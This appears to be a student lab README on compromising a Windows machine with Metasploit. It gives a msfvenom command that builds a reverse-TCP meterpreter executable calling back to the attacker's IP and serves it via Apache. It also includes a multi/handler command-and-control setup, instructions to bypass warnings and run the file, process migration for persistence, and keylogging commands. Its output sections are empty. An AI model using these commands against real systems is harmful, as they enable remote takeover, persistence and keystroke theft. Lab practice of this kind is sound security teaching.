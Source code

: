 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
## OUTPUT:



Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:


copy the fun.exe into the apache /var/www/html folder
## OUTPUT:


Start apache server
sudo systemctl apache2 start
## OUTPUT:


Check the status of apache2
## OUTPUT:



Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
## OUTPUT:



Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0

## OUTPUT:




On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe  ( Replace IP address appropriately)
The file "fun.exe" downloads. 
## OUTPUT:



Bypass any warning boxes, double-click the file, and allow it to run.
## OUTPUT:



On kali/parrot give the command exploit
## OUTPUT:



To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
## OUTPUT:



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
## OUTPUT:


at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
## OUTPUT:



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
## OUTPUT:




keyscan_dump	Shows the keystrokes captured so far
## OUTPUT:


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
